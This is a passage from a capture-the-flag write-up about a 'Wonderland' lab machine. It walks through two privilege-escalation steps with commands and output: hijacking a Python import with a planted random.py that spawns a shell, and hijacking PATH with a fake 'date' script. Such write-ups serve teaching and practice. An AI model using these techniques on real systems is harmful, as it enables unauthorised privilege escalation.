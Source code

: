 To exploit this, we can try **create a new .py script** which will **spawn the shell** and make it **named as random.py** so that whenever we **run the walrus_and_the_carpenter.py** script, it will **import the random.py script** that we have created and **spawn the shell as user rabbit**.

Creating random.py:
```
alice@wonderland:~$ nano random.py
```

```py
import pty
pty.spawn("/bin/bash")
```

Now, run the **"walrus_and_the_carpenter.py"** script:
```
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py 
[sudo] password for alice: 
rabbit@wonderland:~$ 
```

Nice! Now we can try to find more what the user rabbit can do.

In /home/rabbit directory, we found another file:
```
rabbit@wonderland:/home/rabbit$ ls
teaParty
```

Try to view the content of the file:
```
rabbit@wonderland:/home/rabbit$ cat teaParty
```

![img](content.png)

From here, the **date** seems to be weird here as **it doesn't call from the absolute path of the binary**. We can try to create another script file to spawn a shell and make it named as date in the same directory as the teaParty file.

Create the date file:
```
rabbit@wonderland:/home/rabbit$ nano date
```

```sh
#!/bin/bash
/bin/bash
```

Make sure to set the date to be executable:
```
rabbit@wonderland:/home/rabbit$ chmod +x date
```

Next, **add the /home/rabbit directory into the PATH** so that when we run the teaParty, it will able to find the date from /home/rabbit directory and should spawn the hatter shell for us.
```
rabbit@wonderland:/home/rabbit$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin

rabbit@wonderland:/home/rabbit$ export PATH=/home/rabbit:$PATH

rabbit@wonderland:/home/rabbit$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:/home/rabbit$
```
